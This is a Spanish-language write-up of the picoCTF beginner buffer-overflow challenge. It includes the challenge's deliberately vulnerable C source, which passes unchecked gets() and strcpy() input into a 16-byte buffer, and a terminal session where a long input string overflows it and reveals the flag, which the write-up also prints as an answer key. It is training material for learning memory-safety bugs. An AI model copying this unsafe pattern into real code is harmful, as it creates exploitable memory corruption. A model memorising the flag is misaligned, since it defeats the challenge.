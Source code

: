 ## Descripción
Smash the stackLet's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/173/vuln). You can view source [here](https://artifacts.picoctf.net/c/173/vuln.c). And connect with it using:`nc saturn.picoctf.net 51532`

## Pistas 
1. How can you trigger the flag to print?
2. If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.
3. Run `man gets` and read the BUGS section. How many characters can the program really read?

## Solución
```
┌──(kali㉿kali)-[~]
└─$ nc saturn.picoctf.net 51532
Input: sdlkfj
The program will exit now
                                                                                                 
┌──(kali㉿kali)-[~]
└─$ chmod +x vuln         
                                                                                                    
┌──(kali㉿kali)-[~]
└─$ nc saturn.picoctf.net 51532                                
Input: aksdjñflaksdjfñlaksdjflñaskdjfñlaskdfñlasdjk
picoCTF{ov3rfl0ws_ar3nt_that_bad_90d2bb58}
                                                     
```

Para obtener la bandera necesitábamos desbordar el buffer con más de 16 caracteres

```
┌──(kali㉿kali)-[~]
└─$ cat vuln.c            
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}

```


## Bandera
picoCTF{ov3rfl0ws_ar3nt_that_bad_90d2bb58}

## Notas Adicionales
Also known as a buffer overrun, buffer overflow **occurs when the amount of data in the buffer exceeds its storage capacity**. That extra data overflows into adjacent memory locations and corrupts or overwrites the data in those locations.

## Referencias
https://www.fortinet.com/resources/cyberglossary/buffer-overflow#:~:text=Also%20known%20as%20a%20buffer,the%20data%20in%20those%20locations.